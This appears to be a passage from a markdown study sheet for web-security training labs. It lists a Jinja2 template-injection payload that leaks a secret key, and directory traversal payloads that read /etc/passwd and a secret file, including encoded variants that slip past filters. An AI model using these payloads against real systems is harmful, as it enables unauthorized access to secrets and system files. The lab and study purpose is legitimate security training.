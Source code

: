 
### 5. Server-side template injection with information disclosure via user-supplied objects
>Python Jinja2
```
{{settings.SECRET_KEY}}
```


# Directory traversal
## Approach
Just scan it with Burp. It will make all the work. If you can get /etc/passwd, but cannot get /home/carlos/secret (maybe WAF is blocking the word **secret**), just URL-Encode the whole payload (even with /home/carlos/secret) like this:
```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```
   
Arises at **/image?filename=**
![image](https://user-images.githubusercontent.com/58632878/224710901-845ab379-87ab-4a11-b2a0-09b7496242ed.png)  
  
Personally recommend you to turn on images inspection in proxy setting to easily detect this type:  
![image](https://user-images.githubusercontent.com/58632878/224711556-9b533792-59cd-4d71-9c1c-9c19b535fa5a.png)  


## Labs
### 1. File path traversal, traversal sequences blocked with absolute path bypass
```
/image?filename=/etc/passwd
```

### 2. File path traversal, traversal sequences stripped non-recursively
```
/image?filename=..././..././..././etc/passwd
```

### 3. File path traversal, traversal sequences stripped with superfluous URL-decode
```
Double URL-encode ../../../etc/passwd
(e.g. %252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd)
It is recommended to use cyberchef to encode
```

